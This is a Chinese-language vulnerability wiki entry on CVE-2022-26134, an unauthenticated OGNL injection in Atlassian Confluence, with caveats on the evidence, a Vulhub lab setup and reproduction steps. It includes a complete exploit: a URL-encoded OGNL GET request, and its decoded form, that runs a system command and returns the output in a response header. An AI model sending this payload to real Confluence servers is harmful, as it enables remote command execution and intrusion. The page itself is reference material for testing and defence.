

# Confluence Server/Data Center 26134路径OGNL

## 条目说明

- 对象与具体问题：Confluence Server/Data Center；26134路径OGNL
- 版本、配置及部署条件：影响列7.4.17/7.13.7等，疑把修复版本列为受影响；实验7.13.6
- 认证与权限前提：未认证声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 版本清单与脆弱实验版本不一致且无比较符，必须对照原厂确认安全/受影响方向
- 无需任何条件过强，应至少网络可达和脆弱构建
- 响应头执行结果方法清晰但图未视检，保留官方公告与Rapid7；3396仅安装参考

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
- https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis

### 漏洞影响

```
Atlassian Confluence 7.4.17
Atlassian Confluence 7.13.7
Atlassian Confluence 7.14.3
Atlassian Confluence 7.15.2
Atlassian Confluence 7.16.4
Atlassian Confluence 7.17.4
Atlassian Confluence 7.18.1
```

### 网络测绘

```
app="ATLASSIAN-Confluence"
```

### 环境搭建

Vulhub执行如下命令启动一个Confluence Server 7.13.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

### 漏洞复现

该漏洞利用方法十分简单，直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```http
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

其中使用到的OGNL表达式为：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
